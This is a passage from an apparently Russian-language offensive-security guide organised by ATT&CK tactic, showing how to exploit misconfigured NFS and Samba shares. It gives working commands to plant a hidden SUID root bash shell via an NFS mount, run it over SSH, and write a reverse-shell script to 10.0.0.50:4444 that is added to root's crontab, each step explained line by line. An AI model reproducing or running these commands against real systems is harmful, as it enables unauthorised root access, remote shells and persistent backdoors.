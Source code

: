 **Пояснения**:
- `vers=3`: Версия протокола NFS
- `nolock`: Отключение блокировок (упрощает эксплуатацию)
- `proto=tcp`: Использование TCP вместо UDP
- `uid=0,gid=0`: Принудительная установка root-идентификаторов владельца файлов
- `ls -n` проверка подтверждает сохранение UID/GID=0

---

#### 3. [TA0002] – Execution (Выполнение кода)
> Установка и активация вредоносного кода.

**Для NFS:**
```bash
# Копирование стандартной оболочки (Создание SUID-шелла на NFS-шаре)
cp /bin/bash /mnt/nfs_root/.hidden_shell

# Установка SUID-бита и прав root
chmod 4777 /mnt/nfs_root/.hidden_shell
chown root:root /mnt/nfs_root/.hidden_shell

# Проверка прав:
ls -l /mnt/nfs_root/.hidden_shell
# -rwsrwxrwx 1 root root ...  # s в правах = SUID

# Активация SUID-шелла на сервере через SSH
ssh user@192.168.1.100 -t "cd /home && ./.hidden_shell -p"
```

**Пояснения:**
1. **Копирование стандартной оболочки**:
   - `cp /bin/bash` - копирует стандартную Linux-оболочку bash с атакующей машины
   - `/mnt/nfs_root/` - точка монтирования NFS-шары (уязвимый ресурс)
   - `.hidden_shell` - имя файла начинается с точки, что делает его скрытым в Linux

2. **Установка SUID-бита**:
   - `4777` - специальные права:
   - `4` (SUID-бит): при запуске файла процесс наследует права владельца (root)
   - `777` (rwx для всех): полный доступ для всех пользователей
   - SUID + bash = получение root-оболочки при запуске

3. **Назначение владельца root**:
   - Устанавливает владельца файла как root (необходимо для работы SUID)

4. **Проверка прав**:
   - Ожидаемый вывод: `-rwsrwxrwx`
   - `s` вместо `x` в триплете владельца - подтверждение SUID-бита

5. **Активация SUID-шелла**:
   - `-t` - выделение TTY для интерактивной сессии
   - `./.hidden_shell -p` - ключ `-p` сохраняет привилегии (SUID)
   - Результат: получение root-оболочки на целевой системе

**Для Samba:**
```bash
# Создание скрипта для reverse shell
echo '#!/bin/bash
bash -i >& /dev/tcp/10.0.0.50/4444 0>&1' | sudo tee /mnt/samba_public/backdoor.sh
sudo chmod +x /mnt/samba_public/backdoor.sh

# Добавление в cron (на целевой Linux-машине)
ssh user@192.168.1.100 "echo '* * * * * root /public/backdoor.sh' | sudo tee -a /etc/crontab"
```
